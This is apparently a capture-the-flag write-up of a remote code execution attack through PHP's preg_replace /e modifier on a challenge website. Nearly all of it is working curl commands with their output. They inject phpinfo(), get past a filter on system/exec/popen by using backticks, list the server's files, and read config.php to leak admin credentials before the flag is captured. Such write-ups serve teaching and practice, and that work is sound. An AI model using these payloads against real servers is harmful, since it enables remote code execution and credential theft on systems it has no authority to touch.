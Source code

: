 This is preg_replace remote code execution in http://alienzon.com/?type=fun <br />
Checking: `curl -X POST -d "who=//e&yourname=phpinfo();" "http://alienzon.com/?type=fun"` => Success <br />
They filter: system(), exec(), popen(). <br />
So i try: curl -X POST -d "who=//e&yourname=\`ls\`" "http://alienzon.com/?type=fun" => `<br> config.php<br>css<br>favicon.ico<br>img<br>index.php<br>js<br>robots.txt<br>webpotato.php<br>`. Great <br />
curl -X POST -d "who=//e&yourname=\`cat config.php\`" "http://alienzon.com/?type=fun" => `$admin_username = 'admin';$admin_password = 'deepspace';` <br />
Login and get flag: CODE{R3gular_Expr3ssions_Now_You_Have_2_Probl3ms}


